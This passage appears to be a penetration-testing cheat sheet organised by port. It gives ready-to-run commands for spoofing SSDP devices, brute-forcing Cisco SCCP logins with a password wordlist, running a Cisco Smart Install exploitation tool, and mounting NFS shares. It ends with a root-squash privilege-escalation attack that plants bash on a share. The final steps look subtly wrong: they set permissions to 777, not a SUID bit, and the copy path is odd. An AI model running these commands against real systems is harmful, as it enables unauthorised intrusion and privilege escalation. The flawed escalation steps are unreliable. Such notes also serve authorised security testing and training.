 ## 1900 - SSDP (UDP)

* [evil-ssdp](https://www.kali.org/tools/evil-ssdp/) - This tool responds to SSDP multicast discover requests, posing as a generic UPNP device on a local network. Your spoofed device will magically appear in Windows Explorer on machines in your local network.

## 2000 - Cisco SCCP

[cisco-auditing-tool](https://www.kali.org/tools/cisco-auditing-tool/)

```
#CAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt 
```

[Cisco Smart Install exploitation tool](https://github.com/frostbits-security/SIET)

```
sudo python siet.py -g -i 192.168.0.1
```

## 2049 - NFS

{% tabs %}
{% tab title="Enumeration" %}
```
#showmount -e hostname/ip
#mount -t nfs [ip]:/directory_found /local_mount_point
```
{% endtab %}

{% tab title="Mounting" %}
```
#mkdir /tmp/mount
#sudo mount -t nfs [IP]:[share] /tmp/mount/ -nolock
```


{% endtab %}

{% tab title="Root Squashing Attack" %}
### Check

* Root squashing - check for creation of SUID files

### Attack - Bad Root Squash

* NFS Access ->
* Gain Low Privilege Shell ->
* Upload Bash Executable to the NFS share ->

```
#cp /bin/bash /tmp/mount/mount
#cd /tmp/mount/mount
#sudo chown root bash
#sudo chmod 777 bash
```
